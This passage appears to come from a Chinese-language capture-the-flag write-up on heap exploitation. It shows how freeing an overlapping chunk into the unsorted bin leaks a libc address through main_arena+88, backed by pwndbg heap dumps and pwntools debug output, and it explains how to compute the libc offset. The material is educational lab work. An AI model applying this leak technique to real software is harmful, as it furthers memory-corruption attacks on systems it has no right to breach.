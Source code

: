 这个时候我们dele chunk2 chunk2就会进入unsortedbin

然后他的fd bk又指向了main_arena+88

此时他包含在chunk1那么我们把chunk1 打印出来就自然而然的

得到了libc

我们先看看dele chunk2的样子

里面已经包含了

0x560348732050:	0x00007f414af4fb78	0x00007f414af4fb78

nice

```
pwndbg> x/64gx 0x560348732000
0x560348732000:	0x0000000000000000	0x0000000000000021
0x560348732010:	0x6161616161616161	0x6161616161616161
0x560348732020:	0x0000000000000020	0x00000000000000a1
0x560348732030:	0x0000000000000000	0x0000000000000000
0x560348732040:	0x0000000000000000	0x00000000000000a1
0x560348732050:	0x00007f414af4fb78	0x00007f414af4fb78
0x560348732060:	0x0000000000000000	0x0000000000000000
0x560348732070:	0x0000000000000000	0x0000000000000000
0x560348732080:	0x0000000000000000	0x0000000000000000
0x560348732090:	0x0000000000000000	0x0000000000000000
0x5603487320a0:	0x0000000000000000	0x0000000000000000
0x5603487320b0:	0x0000000000000000	0x0000000000000000
0x5603487320c0:	0x0000000000000000	0x0000000000000021
0x5603487320d0:	0x0000000000000000	0x0000000000000000
0x5603487320e0:	0x00000000000000a0	0x0000000000000020
0x5603487320f0:	0x0000000000000000	0x0000000000000000
0x560348732100:	0x0000000000000000	0x0000000000020f01

```

当我们show chunk1可以完美接受到libc

### 偏移寻找

从gdb调试可以知道我们泄露的是main_arena+88

我们可以p main_arena+88得到地址

输入libc

用main_arena+88-libc得到偏移





注意写脚本的时候记得接受0x20大小的junk code

下面的代码块里可以看出的

```shell
[DEBUG] Received 0xf6 bytes:
    00000000  63 6f 6e 74  65 6e 74 3a  20 00 00 00  00 00 00 00  │cont│ent:│ ···│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000020  00 a1 00 00  00 00 00 00  00 78 0b 02  a4 3a 7f 00  │····│····│·x··│·:··│
    00000030  00 78 0b 02  a4 3a 7f 00  00 00 00 00  00 00 00 00  │·x··│·:··│····│····│

```
